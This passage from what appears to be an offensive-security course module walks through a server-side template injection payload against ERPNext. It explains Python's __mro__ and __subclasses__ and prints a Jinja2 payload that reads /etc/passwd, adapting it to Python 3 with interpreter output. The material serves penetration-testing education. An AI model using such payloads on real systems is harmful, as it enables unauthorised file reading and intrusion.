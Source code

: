 In Python 2.7, the second index of the tuple returned by the ___mro___ attribute is the _object_ class. In Python 2.7, the _str_ class inherits from the _basestring_ class while in Python 3, _str_ inherits directly from the _object_ class. This means we will have to be cognizant of the index that we use so that we can get access to the _object_ class.

Now that we understand the ___mro___ attribute, let's continue with our payload.

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

> Listing 62 - Original payload

Since Python 2.7 is retired, we must retrofit this payload to work with Python 3.0. To accommodate this, we will now begin using "1" as the index in the tuple unless we are referring to the original Python 2.7 payload.

Next, the payload runs the ___subclasses___ method within the _object_ class that was returned by the ___mro___ attribute. Python defines this attribute as follows:

Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive.[7](https://portal.offsec.com/courses/web-300-687/learning/erpnext-authentication-bypass-and-server-side-template-injection-10581/wrapping-up-10663/wrapping-up-10759#fn-local_id_269-7)

The ___subclasses___ will return all references to the class from which we are calling it. Considering that we will call this from the built-in _object_ class, we should expect to receive a large list of classes.

```
kali@kali:~$ python3
...
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, ... <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'rlcompleter.Completer'>]
```

> Listing 63 - Subclasses of object class

As expected, we will get a complete list of currently-loaded classes that inherit from the _object_ class. The original payload references the 40th index of the list that is returned. In our list, this returns the _wrapper_descriptor_ class.

```
>>> ''.__class__.__mro__[1].__subclasses__()[40]
<class 'wrapper_descriptor'>
```

> Listing 64 - 40th index of object class in python3

Since the payload is trying to read the /etc/passwd file and the _wrapper_descriptor_ class does not have a _read_ function, we know something is not right.
